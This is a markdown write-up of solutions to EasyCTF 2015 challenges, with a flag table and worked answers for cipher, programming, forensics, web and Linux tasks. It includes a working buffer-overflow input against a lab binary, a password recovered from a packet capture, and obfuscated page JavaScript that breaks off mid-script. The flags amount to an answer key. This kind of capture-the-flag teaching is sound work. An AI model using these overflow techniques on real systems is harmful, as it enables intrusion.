



# EasyCTF 2015

A 1-week-long CTF in November 2015, which started out extremely easy, but as you progressed more an more challenges just kept emerging (huge amount!), slowly increasing in diffuculty. Did not have enough time to solve them all before the week ended, but luckily they kept the challenges up, so this is a WIP.

# Overview


```
Title                                    Category      Points Flag
---------------------------------------- ------------  ------ -------
Julius Save Me                           Cryptography  20     easyctf{Nap0leon_vs_Ca3s4r}
Hello World!                             Programming   20     easyctf{welc0me_two_easyCtf}
Plot Twist                               Web           20     easyctf{remember_to_check_everywhere}
Sum It!                                  Programming   30     easyctf{'twas_sum_EZ_programming,_am_I_rite?}
Teach Me How to Write Like This          Web           30     easyctf{geico_geck0s}
If Logic                                 Programming   30     easyctf{is_it_hi_or_hey_or_something_else}
An apple a day keeps the dinosaur away?  Forensics     35     easyctf{w0w_much_appl3s}
2147483648% Secure                       Web           35     easyctf{developer_console_is_your_friend}
Cab You Even???                          Programming   40     easyctf{?v=8ruJBKFrRCk}
Math Class                               Programming   50     easyctf{have_y0u_had_enough_of_math_in_sk0ol_yet}
Misaka Mikoto                            Cryptography  50     easyctf{l3v3l5esp3rs}
Liar                                     Forensics     50     easyctf{troll3d}
Sort-of-Easy                             Programming   50     easyctf{sorting_is_as_easy_as_3_2_1!}
EasyCTF Day                              Programming   55     3494
lolteam                                  Forensics     65     flag{no,_lolteam_is_not_an_admin_account}
Looking for Letters                      Programming   65     easyctf{filtering_the_#s_out}
String Change                            Programming   70     easyctf{changing_things_up_once_in_a_while_is_gooood_for_you}
Now You See Me, Now You Don't            Linux         75     easyctf{just_playing_h1de_and_seek_lel}
Mrrow?????                               Linux         75     easyctf{leonidas:sparta}
San Francisco Symphony                   Linux         75     easyctf{w0aw_stor1ng_fl4gs_in_pla1nt3xt_i5_s0oper_s3cure}
Buffering...                             Binary        80     easyctf{i_wish_everything_were_th1s_34sy}
Oink                                     Programming   85     easyctf{atinl4y_easyyay_3noughyay_orfay_ayay_1gpay!}
Wastebin 1                               Web           90     easyctf{cr4zy_p4ssw0rds}
A Picture is Worth a Thousand Words      Forensics     100    easyctf{it_must_be_pretty_hard_reading_this}
Hijacked!                                Linux         100    easyctf{c0mp1et3ly_r3kt}
Easter                                   Web           100    easyctf{missionsuccess}
Rest in Pepperoni-Pizzas                 Forensics     100    easyctf{can_y0u_put_411_the_pieces_2gether?}
Oink Oink                                Programming   115    easyctf{th0se_pesky_capit4ls_were_a_pa1n,_weren't_they?}
iSpy                                     Forensics     120    easyctf{pcap_fun!??}
49 Shades of Gray                        Forensics     125    #505050
Same Difference                          Linux         125    easyctf{60a57b3974029aa012e66b05f122748b}
I <3 SLEEPING                            Cryptography  125    serversarehadchaosagentgotosleep
Coordinates                              Programming   150    easyctf{bet_y0u_read_that_wiki_page}
XOR                                      Cryptography  150    easyctf{yo_dawg_i_heard_you_liked_xor}
Who is this god?                         Forensics     175    easyctf{all_hail_michy}
Pixels                                   Forensics     180    easyctf{pretty_pixel_math}
Hardwood Floors                          Cryptography  200    easyctf{fl00r_d1visi0n}
H4sh3D                                   Cryptography  200    abotablsabdoabchabcy
Personal Home Page                       Web           225    easyctf{file_get_contents_is_9_safe} 
Super Secure Lemons                      Web           225    easyctf{never_trust_se1f_signd_certificates}
Wastebin 2                               Web           250    easyctf{looks_like_my_robot_proof_protection_isn't_very_human_proof}
Yve's Fave Pic                           Cryptography  275    
Pretty Horrible Programming              Web           275    easyctf{never_trust_strcmp} 
Accelerator                              Forensics     300    
Known Plaintext1                         Cryptography  300    
Faster Math                              Programming   325    
sayonara                                 Forensics     325    easyctf{do_a_frustration}
Wastebin 3                               Web           325    easyctf{54771309-67e5-4704-8743-6981a40b}
All Zob's Fault                          Cryptography  350    
Infinity Star                            Web           375    
Corrupted                                Forensics     375    
Much Studying                            Binary        400    easyctf{essays_are_too_hard}
Borkenend                                Web           400    
Obfuscated                               Programming   400    
Black Table                              Cryptography  450    
Cave Johnson                             Cryptography  450    easyctf{this_is_aperture_and_we_talk_too_much}
IOException                              Recon         450    
Repetitive Strain Injury                 Forensics     475    
ADoughBee                                Binary        500    
Bigger is Better                         Cryptography  500    
Matrices                                 Cryptography  575    

Eggs                      Flag
------------              ------------------------
robots.txt                egg{gotta_catch_'em_all}
any 404 page              egg{egg_not_found}
```


# Eggs

## egg1
robots.tx

```
User-agent: *
Disallow: /95125f09551360c5294d180b013d047d.html
```

https://www.easyctf.com/95125f09551360c5294d180b013d047d.html

```
Nice job making it here! As you have probably guessed by now, this site is riddled with Easter Eggs! Collect as many as you can, and we'll give bonuses to people who collect the most eggs! Remember, you can attack this site, but you can't do it in a way that prevents others from having the same opportunity, like denial of service. Also, please don't reveal this page to people from other teams in any way (aka IRC). Good luck! The egg that you get from finding this page is egg{gotta_catch_'em_all}. 
```

```
egg{gotta_catch_'em_all}
```

## egg2 

Any 404 page says: 
```
Ok, ok, here's your flag. 6567677b6567675f6e6f745f666f756e647d Just kidding. Click here to go back home. 
```
translates to

```
egg{egg_not_found}
```

# Julius Save Me

**Challenge**  
This cipher involves shifty letters! 

```
Cnebnl Vtxltk bl max uxlm unm fr ykbxgw ebdxl Gtihexhg uxmmxk yhk patmxoxk kxtlhg. Ha pxee. Max yetz bl xtlrvmy{Gti0exhg_ol_Vt3l4k}
```

**Solution**  

Clearly need to apply a ROT cipher, this website convenieently calculates all shifts for you http://planetcalc.com/1434/

Turns out ROT7 was what we needed:

```
Julius Caesar is the best but my friend likes Napoleon better for whatever reason. Oh well. The flag is easyctf{Nap0leon_vs_Ca3s4r}
```

**Flag**  

```
easyctf{Nap0leon_vs_Ca3s4r}
```

# Hello World!

**Challenge**  
Use the programming interface to complete this task. Print the line *Hello, EasyCTF!* to a file called *hello-world.out*. For this problem and for future problems, make sure your program ends with a newline. Good luck!

**Solution**  

```python
open("hello-world.out","w").write("Hello, EasyCTF!\n")

```

**Flag**  

```
easyctf{welc0me_two_easyCtf}
```

# Plot Twist

**Challenge**  
We need to get the flag at this site. That shouldn't be too hard.

https://www.easyctf.com/static/problems/plot-twist/index.html

**Solution**  

Looking in the source we see this snippet:

```html
[..]
<div id="stuff" style="text-align: center">
    <h1>I <3 THIS SITE</h1>

    <p>GIVE ME MY FLAG!!!</p>

    <!-- you thought the flag would be in the comments didn't you? nice try we're better than that -->
</div>
<script type="text/javascript" src="script.js"></script>

[..]
```
The flag was hidden in the javascript file

```
console.log('no one would EVER think to look in the console! flag backup: easyctf{remember_to_check_everywhere}');
```
**Flag**  

```
easyctf{remember_to_check_everywhere}
```

# Sum It!

**Challenge**  
Use the programming interface to complete this task. You'll be given a list of numbers.

Input: A list of numbers, separated by commas.
Output: The sum of the numbers.

Read the input from a file called addition.in that's in the current working directory, and then write your output to a file called addition.out.

**Solution**  

```python
mytotal= open("addition.in").readline().rstrip('\n').replace(',','+')
grandtotal = eval(mytotal)

open("addition.out",'w').write(str(grandtotal)+'\n')

```

**Flag**  
```
easyctf{'twas_sum_EZ_programming,_am_I_rite?}
```

# Teach Me How to Write Like This  

**Challenge**  

My friend Michelle found this cool new site, but you have to pay to read and she doesn't have money. Can you help her read the fics anyways?

**Solution**  

Not sure what the twist was meant to be on this one, but the flag was just in the source

```html
[..]
<div class="text">
    <div class="pay"><p>You must pay exactly &#163;314159265358 to read this fanfic</p><p>PAY <a href="#" style="color: red;">HERE</a></p></div>
    <div class="blur">
        <div class="fanfic ">
            <h3>GECKOS</h3>
            <p>By Yvette</p>
            <p> "It is a late night after work when you straggle into the bar. Behind you is the light of a throbbing metropolis, shafts of bright orange and blue that slant into the dark of the room when you open the door. Your head pounds out there. Well, it pounds everywhere. But you like the muffled darkness of the bar. Dimness and yellow lamplight mute everything else in your mind.</p>
            <p> "Just a beer," you mutter to the bartender. Your voice is made hoarse by age, by the weariness of the human condition.</p>
            <p> "Sure," he says, grabbing a mug. "Also, you should probably see a doctor or something, bud.  Sore throat could be indicative of pharyngeal cancer. Never too safe."</p>
            <p> "Sure." You wish for the sweet ignorance of youth.</p>
            <p> It takes a while to see her. The lighting of the room doesn't lend itself well to vision, but of course, that's why you come here. But you would never have known a gal like her to frequent the same place. Her eyes flash blue in the darkness. There's a strand of hair, loose from her ponytail, curled around her neck, coyly. </p>
            <p>Far away, in the distance, the noise of the bar rumbles on, with the bartender being particularly loud, but there is nothing but her to your eyes. She sips at her glass with delicate grace, but there is nothing delicate in the way you want her to walk all over your heart.It's been ages since you've seen someone who instantly, physically takes your breath away.</p>
            <p>The bartender is yelling now, you think. It's very distracting. "Please, help! Help this man! I don't think he's breathing! Sir!" It's a commotion and strange, but you've learned to expect that from the churning of life. Once in sixth grade, your mother bought a gecko and put it in a terrarium, but she said that the memories were too painful and cried whenever she looked at it, and it died because no one fed it. You still can't make sense of that, but the commotive and the strange, you know, are what breathe spots of light into your monotonous life. Like that girl with the glowing blue eyes who is rushing to you now.</p>
            <p>"I'll call an ambulance for you, sir! Please, stay with me! Does anyone know CPR?" That is her voice. It is like an angel descending onto the unworthy earth, like a pizza being delivered that is paid for with your roommate's money.</p>
            <p>Her face is tinged with purple, and then all goes black. And then orange, and green. Alcohol is a drug. Don't do drugs. The flag is easyctf{geico_geck0s}</p>

            <p>She is holding your hand when you wake up in the ER.</p>
            <p>"Pharyngeal cancer," she whispers. "I'm sorry." Her green eyes shine with tears. "I know a diagnosis like this, it must be hard to swallow. Because, you know, you have throat cancer."</p>
            <p>"Hey," you say. "It's fine. Don't be sad for me. You don't even know me." It's the only thing you can think to say. This turn of events is so bizarre, it could almost be some strange story written by a person with a bad sense of humor. This girl, you think. Fate. Someone as stunning as her, holding your hand by your bedside. Pharyngeal cancer. Life, you think, is about looking for the silver lining. "Hey," you repeat. "I think, actually, I'd like to get to know you. How did your eyes change color?"</p>
            <p>"Contacts," she whispers, with a faint, watery smile. "I should probably tell you my name."</p>
            <p>She does, and you give her yours. There is a silence then, which seems to glow to fill the room, amid the industrial blue of the fluorescents and the gentle whirring of sterile steel machines. The silence reminds you of the tender resilience of love, as she holds your hand in her two and gently strokes it with her thumbs, a light touch from your knuckles to your fingertips.</p>
            <p>"Hey," she says. The side of her mouth quirks up. "Want a secret?"</p>
            <p>You nod, silent.</p>
            <p>"Fifteen minutes could save you fifteen percent or more on car insurance."</p>
            <p>"What," you croak.</p>
            <p>"It's me," she smiles sadly. "Your father."</p>
            <p>"But I have a father."</p>
            <p>"Stepfather. I am your real father. Come, son. We must save our people the geckos from absurd prices."</p>
        </div>
    </div>
</div>
[..]
```

**Flag**  
```
easyctf{geico_geck0s}
```

# If Logic

**Challenge**  

```
Use the programming interface to complete this task. You'll be given a list of numbers.

Input: A list of numbers, separated by commas.
Output: Print hi if the number is 0-50 (inclusive), hey if the number is 51-100 (inclusive), and hello if anything else. Each greeting should have a linebreak after it.

Read the input from a file called if-logic.in that's in the current working directory, and then write your output to a file called if-logic.out.
```

**Solution**  

```python
numbers=open("if-logic.in","r").readline().rstrip().split(",")
fout=open("if-logic.out","w+")

for n in numbers:
    n=int(n)    
    if n <= 50 and n >=0:
        fout.write("hi")
    elif n > 50 and n <=100:
        fout.write("hey")
    else:
        fout.write("hello")
    fout.write("\n")    

fout.close()
```

**Flag**  
```
easyctf{is_it_hi_or_hey_or_something_else}
```

# An apple a day keeps the dinosaur away?  

**Challenge**  
Oh look, it's a perfectly innocent picture of an apple. Nothing to see here!


**Solution**  
```
$ strings apple.jpg
    the flag is easyctf{w0w_much_appl3s}

```

**Flag**  

```
easyctf{w0w_much_appl3s}
```


# 2147483648% Secure
**Challenge**  
Hack my friend's website! From what she tells me, it's super secure. Why don't we prove her wrong :)

[link](https://www.easyctf.com/static/problems/intro-js/index.html)

**Solution**  

In the source we find the following javascript:

```html
[..]
<script type="text/javascript">
    var _0xa107=["\x64\x65\x76\x65\x6C\x6F\x70\x65\x72\x5F\x63\x6F\x6E\x73\x6F\x6C\x65\x5F\x69\x73\x5F\x79\x6F\x75\x72\x5F\x66\x72\x69\x65\x6E\x64","\x65\x61\x73\x79\x63\x74\x66\x7B","\x7D"];
    var _0x6fdc=[_0xa107[0],_0xa107[1],_0xa107[2]];
    var secret=_0x6fdc[0];
    secret=_0x6fdc[1]+secret+_0x6fdc[2];
</script>
```
Executing this in firefox's scratchpad (Shift+F4) gives the flag

```javascript
var _0xa107=["\x64\x65\x76\x65\x6C\x6F\x70\x65\x72\x5F\x63\x6F\x6E\x73\x6F\x6C\x65\x5F\x69\x73\x5F\x79\x6F\x75\x72\x5F\x66\x72\x69\x65\x6E\x64","\x65\x61\x73\x79\x63\x74\x66\x7B","\x7D"];
var _0x6fdc=[_0xa107[0],_0xa107[1],_0xa107[2]];
var secret=_0x6fdc[0];
secret=_0x6fdc[1]+secret+_0x6fdc[2];

alert(secret)
```

**Flag**  

```
easyctf{developer_console_is_your_friend}
```

# Can You Even??
**Challenge**  
Use the programming interface to complete this task. You'll be given a list of numbers.

Input: A list of numbers, separated by commas.
Output: The number of even numbers.

Read the input from a file called can-you-even.in that's in the current working directory, and then write your output to a file called can-you-even.out.
**Solution**  
```python
numbers= open("can-you-even.in").readline().rstrip('\n').split(',')

evencount=0
for n in numbers:
    if not int(n)%2:
        evencount += 1
        
open("can-you-even.out",'w').write(str(evencount)+'\n')
```

**Flag**  

```
easyctf{?v=8ruJBKFrRCk}
```


# Math Class
**Challenge**  
Use the programming interface to complete this task. You'll be given a math expression, such as add 1 2 or subtract 5 3, where you will perform the operations 1+2 and 5-3, respectively.

ID: math-class
Input: An expression in the form of operation operand1 operand2, separated by spaces. Read input from math-class.in.
Output: The absolute value of the evaluated expression. Your output should always be a positive integer.

There are only 2 different possible operations, addition and subtraction, and all operands will be integer values between 1 and 1000. As always, remember to end your program with a newline.
**Solution**  

```python
fout=open("math-class.out",'w+')
expressions= open("math-class.in").readline().rstrip('\n').split(',')

count=0
for e in expressions:
    ex=e.split(' ')
    if count:
        fout.write(',')
    if ex[0]=="add":
        fout.write(str(abs(int(ex[1])+int(ex[2]))))
    else:
        fout.write(str(abs(int(ex[1])-int(ex[2]))))
    count+=1
    
fout.write('\n')
fout.close()
```


**Flag**  

```
easyctf{have_y0u_had_enough_of_math_in_sk0ol_yet}
```

# Misaka Mikoto

**Challenge**  
My friends like anime way too much . . . they decided that to give me an encoded message, but I can't solve it because I'm not a weeb!

[file](writeupfiles/message.txt)

contents:
 
```
rasfsasrettlepinebec353luteayvlrghs3s
```

Hint: Railguns are cool!

**Solution**  

Rail fence cypher.

[wikipedia](https://en.wikipedia.org/wiki/Rail_fence_cipher)

Example:

```
WE ARE DISCOVERED. FLEE AT ONCE

W . . . E . . . C . . . R . . . L . . . T . . . E
. E . R . D . S . O . E . E . F . E . A . O . C .
. . A . . . I . . . V . . . D . . . E . . . N . .

WECRL TEERD SOEEF EAOCA IVDEN
```
Use this to decode our method. We vary the number of rails until we get something sensible

```
rasfsasrettlepinebec353luteayvlrghs3s


r.......a.......s.......f.......s....
.a.....s.r.....e.t.....t.l.....e.p...
..i...n...e...b...e...c...3...5...3..
...l.u.....t.e.....a.y.....v.l.....r.
....g.......h.......s.......3.......s

railgunsarethebesteasyctfl3f3l5esp3rs

railguns are the best easyctf{l3v3l5esp3rs}

```

There is also a good online decoder here: [http://rumkin.com/tools/cipher/railfence.php](http://rumkin.com/tools/cipher/railfence.php)

**Flag**  

```
easyctf{l3v3l5esp3rs}
```


# Liar

**Challenge**  

I may or may not have illegally bought this file from someone who claims that it contains secret pictures of my friend and her fiancé. Unfortunately, I can't open it, and I already paid $4096 for it. Can you help me find out if the seller was lying?

[file](writeupfiles/secret)

**Solution**  

The archive contains a file named secret.png, but the file is corrupted. Opening it in a hexeditor we see the first four bytes of the PNG header are missing

We fix the header to the correct values

```
89  50  4e  47  0d  0a  1a  0a
```

Now we can view the file and see the key


**Flag**  

```
easyctf{troll3d}
```

# EasyCTF Day  

**Challenge**  

EasyCTF started on November 3rd, 2015 this year. Find the position where the numerical representation of the month and day of this date 1103 is first found within pi. Use any language you'd like! The flag is the position of the first digit of the date within pi, where 3 is the first digit and the decimal point . is not considered a position.

**Solution**  

We can simply google the first digits of Pi

**Flag**  
```
3494
```

# Sort-of-Easy

**Challenge**  
Use the programming interface to complete this task.

Input: A list of numbers, separated by commas. Ex: 3,28,9,17,5
Output: The list sorted from largest to smallest, separated by commas. Ex: 28,17,9,5,3

Read the input from a file called sorting-job.in that's in the current working directory, and then write your output to a file called sorting-job.out.

**Solution**  

```python

nums= open("sorting-job.in","r").readline().rstrip().split(",")
nums= [int(n) for n in nums]
nums = sorted(nums)
nums = nums[::-1]

open("sorting-job.out","w").write( ','.join(str(n) for n in nums)+'\n' )
```

**Flag**  
```
easyctf{sorting_is_as_easy_as_3_2_1!}
```

# lolteam

**Challenge**  
There's a suspicious team out there called lolteam, I got my eyes on them for a while and I managed to wiretap their browser as they were changing their password. What did they change their password to?

[lolteam.pcapng](writeupfiles/lolteam.pcapng)

**Solution**  

Open in Wireshark, export HTTP objects POST request

```
teamname=lolteam&school=lolschool&password=flag%7Bno%2C_lolteam_is_not_an_admin_account%7D&confirm=lolpassword
```

**Flag**  

```
flag{no,_lolteam_is_not_an_admin_account}
```

# Looking for Letters

**Challenge**  
Use the programming interface to complete this task.

Input: A string containing alphanumeric characters.
Output: A string containing only the letters of the input.

Read the input from a file called looking-for-letters.in that's in the current working directory, and then write your output to a file called looking-for-letters.out.

**Solution**  

```python
inputstring= open("looking-for-letters.in").readline().rstrip('\n')

result = ''.join([i for i in inputstring if not i.isdigit()])

open("looking-for-letters.out",'w').write(result+'\n')

```

**Flag**  

```
easyctf{filtering_the_#s_out}
```

# String Change

**Challenge**  

Use the programming interface to complete this task. Given an array of 5 numbers, change every nth character, with n being the value of the first number of the array and the first letter of the string as the 1st character, of a string and move its value up by one (a turns into b, z turns into a). Repeat this for the rest of the numbers of the array and return the changed string. Do this for all the strings. Be careful to keep the original capitalization!

For example: [2,3,7,5,4] and oTerNmIWxGqaaV would become oTfsPnKXzHsadV

ID: string-change
Input: Read the input from a file called string-change.in that contains a string of: a list of 5 numbers separated by commas followed by a linebreak, and then a string of random characters.
Output: The string changed according to the values in the list, written to a file called string-change.out.

You already know this, but don't forget to end your output with a newline.

**Solution**  

```python
f=open("string-change.in")
fout=open("string-change.out",'w+')

numbers= f.readline().rstrip('\n').split(',')
mystring= list(f.readline().rstrip('\n'))

for num in numbers:
    n = int(num)-1
    for i in xrange(n,len(mystring),n+1):
        if mystring[i]=='z':
           mystring[i]='a'
        elif mystring[i]=='Z':
           mystring[i]='A'
        else:
           mystring[i]=chr(ord(mystring[i])+1)        

fout.write(''.join(mystring)+'\n')
f.close()
fout.close()
```

**Flag**  

```
easyctf{changing_things_up_once_in_a_while_is_gooood_for_you}
```

# Now You See Me, Now You Don't
**Challenge**  
Now you see me, now you don't? There's a file in /problems/elusive, but I can't seem to find it. Find it and print its contents!
**Solution**  
just a hidden file

```
$ ls -la /problems/elusive
total 12
drwxr-xr-x  2 root root 4096 Nov  4 01:04 .
drwxr-x--x 10 root root 4096 Nov  4 23:56 ..
-rwxr-xr-x  1 root root   40 Nov  4 00:59 .hidden_file

$ cat /problems/elusive/.hidden_file
easyctf{just_playing_h1de_and_seek_lel}
```

**Flag**  

```
easyctf{just_playing_h1de_and_seek_lel}
```

# Mrrow?????

**Challenge**  

A lonely little text file wants to play a game: /problems/owner.

**Solution**  

```
$ ls /problems/owner/
file.txt

$ cat /problems/owner/file.txt
Help! I was wandering unfamiliar lands when I was suddenly taken hostage!

Please tell me who's my owner, and what his group is!
easyctf{<owner>:<group>}

$ ls -la /problems/owner/file.txt
-rwxr-xr-x 1 leonidas sparta 165 Nov  4 01:04 /problems/owner/file.txt

```

**Flag**  

```
easyctf{leonidas:sparta}
```

# San Francisco Symphony

**Challenge**  
Who knew musicians could program? They put a flag inside /problems/sfs/sfs! But when I run the program, it's not printing out the flag. Find the flag!

**Solution**  

```
$ ls -la /problems/sfs
drwxr-xr-x  2 root root 4096 Nov  4 01:02 .
drwxr-x--x 10 root root 4096 Nov  4 23:56 ..
-rwxr-xr-x  1 root root 8586 Nov  4 01:02 sfs
--wx--x--x  1 root root  166 Nov  4 01:02 sfs.c

```

Only root can see the source file, but strings helps us output

```
$ strings sfs | grep easyctf
easyctf{w0aw_stor1ng_fl4gs_in_pla1nt3xt_i5_s0oper_s3cure}
```

**Flag**  

# Buffering...

**Challenge**  
Can you overflow the stack? Try it at /problems/overflow1 on the EasyCTF shell server. The source is available at /problems/overflow1/overflow1.c, and the program you're trying to overflow is at /problems/overflow1/overflow1. Good luck!

**Solution**  

overflow1.c:

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

int main() {
    char buf[20];
    int x = 0;
    gets(buf);
    if (x == 1337) {
        gid_t gid = getegid();
        setresgid(gid, gid, gid);
        FILE *fp;
        fp = fopen("flag.txt", "r");
        char flag[64];
        fgets(flag, 64, (FILE*) fp);
        printf("Here's a flag: %s\n", flag);
    }
    printf("%d\n", x);
    return 0;
}
```

So if we write more that 20 bytes to the buffer we overwrite variable x, if we can set this to the value 1337, we get the flag. Luckily it prints the contents of x at the end of execution. We figure out that after printing 28 characters we start to overwrite the variable x. 1337 is 0x539 in hex, we print this in little endian after 28 other characters to get the flag: 

```
$ perl -e 'print "a"x28 . "\x39\x05" ' | ./overflow1 

Here's a flag: easyctf{i_wish_everything_were_th1s_34sy}

1337

```

**Flag**  

```
easyctf{i_wish_everything_were_th1s_34sy}
```
# Wastebin 1
**Challenge**  

I created a paste-sharing site the other day. Since client-side is faster, I decided to retrieve the entire database and store it client-side. No one should be able to see it, right? Prove me wrong by finding the admin password. page

**Solution**  

again the solution is just in the source code

```html
[..]
<script type="text/javascript">
			var users = [
				{ username: "admin", password: "easyctf{cr4zy_p4ssw0rds}" },
				{ username: "tom", password: "easyctf{9et_r3kt}" },
				{ username: "becky", password: "easyctf{w0w_so_s3cure}" }
			];
			document.getElementById("users_registered").innerHTML = users.length;
			window.check_login = function() {
				var username = document.getElementById("username").value;
				var password = document.getElementById("password").value;
				for(var user in users) {
					if (users[user].username == username && users[user].password == password) {
						alert("Access granted!");
						return;
					}
				}
				alert("Dang it, you screwed up.");
			}
		</script>
[..]
```
**Flag**  

```
easyctf{cr4zy_p4ssw0rds}
```

# A Picture is Worth a Thousand Words

**Challenge**  

A picture is worth a thousand words. Can you find the (JPEG) picture among a thousand files? Connect to the EasyCTF SSH server and find the files in /problems/1000words. The files are also available for download [here](writeupfiles/data.zip).

**Solution**  
```
$ cd /problems/1000words

$ file * |grep image
hOQU3ZIhDXEfFijv: Netpbm PAM image file
OmGJGyLejXS3Olrm: Netpbm PPM image, ASCII text, with very long lines
UgeVjTlmZjNFvULk: JPEG image data, JFIF standard 1.01
```


**Flag**  

```
easyctf{it_must_be_pretty_hard_reading_this}
```

# Hijacked!
**Challenge**  

Someone planted a file on our computer (the shell server), but we don't know what it is! The only clue that we have is that it's owned by a user called l33t_haxx0r. Can you figure out the flag?

**Solution**  

```
$ find / -user l33t_haxx0r 2>/dev/null
/var/www/html/index.html
```
This gives an html file with the flag hidden inside it:

```
[..]
<!-- 
t
h
e

f
l
a
g

i
s

e
a
s
y
c
t
f
{
c
0
m
p
1
e
t
3
l
y
_
r
3
k
t
}
-->

[..]
```


**Flag**  
```
easyctf{c0mp1et3ly_r3kt}
```

# Easter

**Challenge**  

[page](https://www.easyctf.com/static/problems/easter/easter.html)

**Solution**  

```html
<script language=JavaScript> eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('b d(){1(f.g==2){5 4}}b 9(e){1(0.7||0.c&&!0.8){1(e.6==2||e.6==3){5 4}}}1(0.7){0.h(k.l);0.a=9}i 1(0.8&&!0.c){0.a=d}0.n=j m("5 4")',24,24,'document|if|||false|return|which|layers|all|clickNS4|onmousedown|function|getElementById|clickIE4||event|button|captureEvents|else|new|Event|MOUSEDOWN|Function|oncontextmenu'.split('|'),0,{}))

	</script>


<title>Easter</title>

	<script>
	  __=("")[(""+{})[5]+(""+{})[1]+(""+1/0)[1]+(""+!1)[3]+(""+!0)[0]+(""+!0)[1]+(""+!0)[2]+(""+{})[5]+(""+!0)[0]+(""+{})[1]+(""+!0)[1]][(""+!1)[0]+(""+!0)[1]+(""+{})[1]+("")
	  [(""+{})[5]+(""+{})[1]+(""+1/0)[1]+(""+!1)[3]+(""+!0)[0]+(""+!0)[1]+(""+!0)[2]+(""+{})[5]+(""+!0)[0]+(""+{})[1]+(""+!0)[1]][(""+{})[5]+(""+{})[1]+(""+1/0)[1]+(""+!1)[3]+
	  (""+!0)[0]+(""+!0)[1]+(""+!0)[2]+(""+{})[5]+(""+!0)[0]+(""+{})[1]+(""+!0)[1]]((""+!0)[1]+(""+!1)[4]+(""+!0)[0]+(""+!0)[2]+(""+!0)[1]+(""+1/0)[1]+({}+"")[7]+(""+!1)[1]+
	  (""+!0)[0]+({}+"")[1]+({}+"")[2])()((""+!1)[1]+2+(""+!0)[0]+(""+!0)[0])[2]+("")[(""+{})[5]+(""+{})[1]+(""+1/0)[1]+(""+!1)[3]+(""+!0)[0]+(""+!0)[1]+(""+!0)[2]+(""+{})[5]+
	  (""+!0)[0]+(""+{})[1]+(""+!0)[1]][(""+{})[5]+(""+{})[1]+(""+1/0)[1]+(""+!1)[3]+(""+!0)[0]+(""+!0)[1]+(""+!0)[2]+(""+{})[5]+(""+!0)[0]+(""+{})[1]+(""+!0)[1]]((""+!0)[1]+
	  (""+!1)[4]+(""+!0)[0]+(""+!0)[2]+(""+!0)[1]+(""+1/0)[1]+({}+"")[7]+(""+!1)[1]+(""+!0)[0]+({}+"")[1]+({}+"")[2])()((""+{})[5]+0+((99)[(""+{})[5]+(""+{})[1]+(""+1/0)[1]+
	  (""+!1)[3]+(""+!0)[0]+(""+!0)[1]+(""+!0)[2]+(""+{})[5]+(""+!0)[0]+(""+{})[1]+(""+!0)[1]]+"")[9]+6)[1]+("")[(""+{})[5]+(""+{})[1]+(""+1/0)[1]+(""+!1)[3]+(""+!0)[0]+(""+!
	  0)[1]+(""+!0)[2]+(""+{})[5]+(""+!0)[0]+(""+{})[1]+(""+!0)[1]][(""+{})[5]+(""+{})[1]+(""+1/0)[1]+(""+!1)[3]+(""+!0)[0]+(""+!0)[1]+(""+!0)[2]+(""+{})[5]+(""+!0)[0]+(""+{})
	  [1]+(""+!0)[1]]((""+!0)[1]+(""+!1)[4]+(""+!0)[0]+(""+!0)[2]+(""+!0)[1]+(""+1/0)[1]+({}+"")[7]+(""+!1)[1]+(""+!0)[0]+({}+"")[1]+({}+"")[2])()(({}+"")[2]+2+(("")[(""+{})
	  [5]+(""+{})[1]+(""+1/0)[1]+(""+!1)[3]+(""+!0)[0]+(""+!0)[1]+(""+!0)[2]+(""+{})[5]+(""+!0)[0]+(""+{})[1]+(""+!0)[1]][(""+{})[5]+(""+{})[1]+(""+1/0)[1]+(""+!1)[3]+(""+!0)
	  [0]+(""+!0)[1]+(""+!0)[2]+(""+{})[5]+(""+!0)[0]+(""+{})[1]+(""+!0)[1]]+"")[9]+({}+"")[1])[2]+(""+!1)[1]+(""+!0)[1]+("")[(""+{})[5]+(""+{})[1]+(""+1/0)[1]+(""+!1)[3]+
	  (""+!0)[0]+(""+!0)[1]+(""+!0)[2]+(""+{})[5]+(""+!0)[0]+(""+{})[1]+(""+!0)[1]][(""+{})[5]+(""+{})[1]+(""+1/0)[1]+(""+!1)[3]+(""+!0)[0]+(""+!0)[1]+(""+!0)[2]+(""+{})[5]+
	  (""+!0)[0]+(""+{})[1]+(""+!0)[1]]((""+!0)[1]+(""+!1)[4]+(""+!0)[0]+(""+!0)[2]+(""+!0)[1]+(""+1/0)[1]+({}+"")[7]+(""+!1)[1]+(""+!0)[0]+({}+"")[1]+({}+"")[2])()((""+{})
	  [5]+0+((99)[(""+{})[5]+(""+{})[1]+(""+1/0)[1]+(""+!1)[3]+(""+!0)[0]+(""+!0)[1]+(""+!0)[2]+(""+{})[5]+(""+!0)[0]+(""+{})[1]+(""+!0)[1]]+"")[9]+6)[1]+(""+{})[1]+(("")[""]
	  +"")[2]+(""+!0)[3]];("")[(""+{})[5]+(""+{})[1]+(""+1/0)[1]+(""+!1)[3]+(""+!0)[0]+(""+!0)[1]+(""+!0)[2]+(""+{})[5]+(""+!0)[0]+(""+{})[1]+(""+!0)[1]][(""+{})[5]+(""+{})[1]
